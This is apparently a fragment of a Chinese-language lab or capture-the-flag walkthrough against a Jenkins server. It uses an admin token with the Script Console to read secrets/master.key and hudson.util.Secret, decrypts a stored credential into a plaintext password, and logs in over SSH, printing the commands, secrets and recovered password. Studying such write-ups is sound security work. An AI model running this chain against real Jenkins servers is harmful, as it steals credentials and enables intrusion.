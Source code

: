 ```bash
curl -u "admin:1172836bdd7cc687550e757a57d57e2804" -H "Jenkins-Crumb: $CRUMB" -d "script=println 'cat secrets/master.key'.execute().text" http://192.168.66.128:8080/scriptText
```
![](assets/img/attachments/QQ_1754577050083.png)  
master.key
```
504f62ab1c6fe005cbfba4cbac6dea110d0d45449dbef5236108752b3387a0b5b86aa154d77f5ed829c720c3d4384abefb17c116be7e59a4be0df2aa40b4ff30b1d43c18ad8764840f067124c5c93348f84df5cab0cf5001aa5bd9aa85c1545c616e01e5b3a87954fadcb1acd35a2eb917cc24708667f3a268770ec60154d138
```
hudson.util.Secret
```
[root@localhost ~]# curl -u "admin:1172836bdd7cc687550e757a57d57e2804" \
>    -H "Jenkins-Crumb: $CRUMB" \
>    -d "script=println 'base64 secrets/hudson.util.Secret'.execute().text" \
>    http://192.168.66.128:8080/scriptText
CWbIdzHbfTI8pV7A/1UuCcs0Ags9Y18nyqsrTnoIzArpEk58k7nvowlq3KqicxergfHaPoxaTlvX
bKTRpnnfVba/t3x9eXnPMTz9j/WuPpbVS+8scytbA3FOAzjmvWG1aMQYwsp7WahtT+evSbADcZ+3
t7kKG5mn8WoV7GoRXtsfisbHUDHGxV28OXVKf3p+8JnL/n64dm7rdUE35+3f2gYpZjLFXPZk696F
8XXPTgkIOgEnBT1r3Ur9CMF+5wDheEQQN6Xv0Wc3VKOPQ7MtetPTVpZjV5ncNJgi7tRXdEFP+8kj
GkgbLlWWZ7mlpeH7P433tl8HzJx27QNYMcLVQLZm0DTUtwYi6Bk6C0IKnX0=

```

解密  

```
┌──(pd)─(kali㉿kali)-[~/ls]
└─$ python3 jenkins_credential.py master.key hudson.util.Secret {AQAAABAAAAAgtexA8vpTSnExRDT5W2GGLO4f2VW1OCnN0JoU8Nfy1zx90xyaA/ddWiCrThVdRmQn}
/home/kali/ls/jenkins_credential.py:5: SyntaxWarning: invalid escape sequence '\ '

8A2G0RNDocDjiaKd
```

ssh登录  
```
ssh idss@192.168.66.128
8A2G0RNDocDjiaKd
```